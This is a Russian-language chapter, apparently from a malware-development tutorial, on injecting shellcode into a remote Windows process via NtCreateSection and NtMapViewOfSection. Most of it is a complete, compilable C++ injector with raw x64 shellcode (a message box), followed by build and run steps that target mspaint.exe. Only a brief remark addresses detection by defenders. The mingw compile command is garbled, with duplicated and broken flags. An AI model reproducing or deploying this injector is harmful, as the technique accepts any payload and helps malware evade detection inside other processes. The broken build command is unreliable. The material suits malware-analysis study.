\newpage
\subsection{24. инъекция кода через секции памяти. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

В предыдущих разделах я писал о классических инъекциях, где функции WinAPI [заменялись](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html) на функции Native API.    

Этот раздел является результатом самостоятельного изучения ещё одной техники разработки вредоносного ПО.    

Хотя использование этих трюков в обычных приложениях является признаком чего-то вредоносного, злоумышленники продолжают использовать их для инъекции кода в процессы.    

### что такое секция?   

Секция - это блок памяти, который можно разделять между процессами и который можно создать с помощью API `NtCreateSection`.    

### практический пример.   

Алгоритм этой техники следующий: сначала создаем новый объект секции с помощью `NtCreateSection`:    

{width="80%"}    

{width="80%"}    

Затем, прежде чем процесс сможет читать/записывать в этот блок памяти, он должен отобразить представление данной секции, что можно сделать с помощью `NtMapViewOfSection`:    

{width="80%"}    

Отображаем представление созданной секции в локальный вредоносный процесс с защитой `RW`:    

{width="80%"}    

Затем отображаем представление созданной секции в удаленный целевой процесс с защитой `RX`:    

{width="80%"}    

Как видно, для открытия процесса я использовал Native API [функцию NtOpenProcess](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html):    

{width="80%"}    

Затем записываем полезную нагрузку:    

```cpp
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

{width="80%"}    

Затем создаем удаленный поток в целевом процессе и указываем ему отображенное представление в целевом процессе, чтобы запустить шеллкод через `RtlCreateUserThread`:   

{width="80%"}    

{width="80%"}    

Наконец, я использовал `ZwUnmapViewOfSection` для очистки:   

{width="80%"}    

{width="80%"}    

Итак, полный код, демонстрирующий эту технику, выглядит следующим образом:

```cpp
/*
 * hack.cpp
 * advanced code injection technique via 
 * NtCreateSection and NtMapViewOfSection
 * author @cocomelonc
 * https://cocomelonc.github.com/tutorial/
 2021/12/13/malware-injection-12.html
*/
#include <iostream>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")
#pragma comment(lib, "advapi32.lib")

#define InitializeObjectAttributes(p,n,a,r,s) { \
  (p)->Length = sizeof(OBJECT_ATTRIBUTES); \
  (p)->RootDirectory = (r); \
  (p)->Attributes = (a); \
  (p)->ObjectName = (n); \
  (p)->SecurityDescriptor = (s); \
  (p)->SecurityQualityOfService = NULL; \
}

// dt nt!_UNICODE_STRING
typedef struct _LSA_UNICODE_STRING {
  USHORT            Length;
  USHORT            MaximumLength;
  PWSTR             Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// dt nt!_OBJECT_ATTRIBUTES
typedef struct _OBJECT_ATTRIBUTES {
  ULONG            Length;
  HANDLE           RootDirectory;
  PUNICODE_STRING  ObjectName;
  ULONG            Attributes;
  PVOID            SecurityDescriptor;
  PVOID            SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

// dt nt!_CLIENT_ID
typedef struct _CLIENT_ID {
  PVOID            UniqueProcess;
  PVOID            UniqueThread;
} CLIENT_ID, *PCLIENT_ID;


// NtCreateSection syntax
typedef NTSTATUS(NTAPI* pNtCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// RtlCreateUserThread syntax
typedef NTSTATUS(NTAPI* pRtlCreateUserThread)(
  IN HANDLE               ProcessHandle,
  IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
  IN BOOLEAN              CreateSuspended,
  IN ULONG                StackZeroBits,
  IN OUT PULONG           StackReserved,
  IN OUT PULONG           StackCommit,
  IN PVOID                StartAddress,
  IN PVOID                StartParameter OPTIONAL,
  OUT PHANDLE             ThreadHandle,
  OUT PCLIENT_ID          ClientID
);

// NtOpenProcess syntax
typedef NTSTATUS(NTAPI* pNtOpenProcess)(
  PHANDLE                 ProcessHandle,
  ACCESS_MASK             AccessMask,
  POBJECT_ATTRIBUTES      ObjectAttributes,
  PCLIENT_ID              ClientID
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE                 ProcessHandle,
  PVOID BaseAddress
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
  HANDLE sh = NULL; // section handle
  PVOID lb = NULL; // local buffer
  PVOID rb = NULL; // remote buffer
  HANDLE th = NULL; // thread handle
  DWORD pid; // process ID

  pid = findMyProc(argv[1]);

  OBJECT_ATTRIBUTES oa;
  CLIENT_ID cid;
  InitializeObjectAttributes(&oa, NULL, 0, NULL, NULL);
  cid.UniqueProcess = (PVOID) pid;
  cid.UniqueThread = 0;

  // loading ntdll.dll
  HANDLE ntdll = GetModuleHandleA("ntdll");

  pNtOpenProcess myNtOpenProcess = 
  (pNtOpenProcess)GetProcAddress(
    ntdll, "NtOpenProcess");
  pNtCreateSection myNtCreateSection = 
  (pNtCreateSection)(GetProcAddress(
    ntdll, "NtCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pRtlCreateUserThread myRtlCreateUserThread  = 
  (pRtlCreateUserThread)(GetProcAddress(
    ntdll, "RtlCreateUserThread"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));

  // create a memory section
  myNtCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, (PLARGE_INTEGER)&sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

  // bind the object in the memory 
  // of our process for reading and writing
  myNtMapViewOfSection(sh, GetCurrentProcess(), 
  &lb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_READWRITE);

  // open remote proces via NT API
  HANDLE ph = NULL;
  myNtOpenProcess(&ph, PROCESS_ALL_ACCESS, &oa, &cid);

  if (!ph) {
    printf("failed to open process :(\n");
    return -2;
  }

  // bind the object in the memory of the target process
  // for reading and executing
  myNtMapViewOfSection(sh, ph, &rb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_EXECUTE_READ);

  // write payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // create a thread
  myRtlCreateUserThread(ph, NULL, FALSE, 
  0, 0, 0, rb, NULL, &th, NULL);

  // and wait
  if (WaitForSingleObject(th, INFINITE) == WAIT_FAILED) {
    return -2;
  }

  // clean up
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  myZwUnmapViewOfSection(ph, rb);
  CloseHandle(sh);
  CloseHandle(ph);
  return 0;
}
```

Как видно, всё довольно просто. Также я использовал функцию `findMyProc` из одного из моих [предыдущих](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) разделов:

{width="80%"}    

Изменения в локальном представлении секции также приведут к модификации удаленных представлений, что позволяет обойти необходимость использования таких API, как `KERNEL32.DLL!WriteProcessMemory`, для записи вредоносного кода в адресное пространство удаленного процесса.    

Хотя это является некоторым преимуществом перед прямым выделением виртуальной памяти с использованием `NtAllocateVirtualMemory`, оно создаёт схожие вредоносные артефакты в памяти, на которые синие команды должны обращать внимание:    

{width="80%"}    

### демо

Теперь, когда мы разобрались с полным кодом вредоносного ПО, можем его протестировать.    

Компилируем вредоносное ПО:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptionsections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-igc-plibgcc -fpermissive
```

{width="80%"}    

Затем запускаем целевой процесс (в нашем случае `mspaint.exe`) на целевой машине (Windows 10 x64):    

{width="80%"}    

Далее запускаем вредоносное ПО:    
```cmd
.\hack.exe mspaint.exe
```

{width="80%"}    

